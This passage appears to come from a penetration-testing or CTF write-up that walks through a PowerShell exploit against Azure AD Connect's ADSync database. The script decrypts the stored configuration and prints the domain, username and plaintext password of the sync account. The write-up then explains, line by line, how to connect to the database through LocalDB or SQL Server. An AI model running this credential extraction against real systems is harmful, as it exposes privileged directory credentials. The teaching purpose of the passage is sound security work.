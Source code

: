 ```powershell
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

**Let's break down the key parts of this exploit**:


#### 1. Connecting to the `Database`: {#1-dot-connecting-to-the-database}



-  **LocalDB Version**:

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
```

##### Line-by-line breakdown:
  1.   Creates a new SqlConnection object to connect to the `LocalDB` instance.
        -   `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data`
        -   `"Data Source=(localdb)\.\ADSync"` specifies the `LocalDB` instance name.
        -   `"Initial Catalog=ADSync"` specifies the database name.
  2.  `$client.Open()`
        -   Opens the connection to the database.



-  **SQL Server Version**:

    ```powershell
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    $client.Open()
    ```

##### Line-by-line breakdown:
1.  Creates a new SqlConnection object to connect to a full SQL Server instance.
  - `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList`
  -  `"Server=127.0.0.1"` specifies the local machine's loopback address, as SQL is running internally.
  -  `"Database=ADSync"` specifies the database name.
  -  `"Integrated Security=True"` enables Windows Authentication, using the current user's credentials.
  -   The current user would need to have the correct permissions on the SQL database.
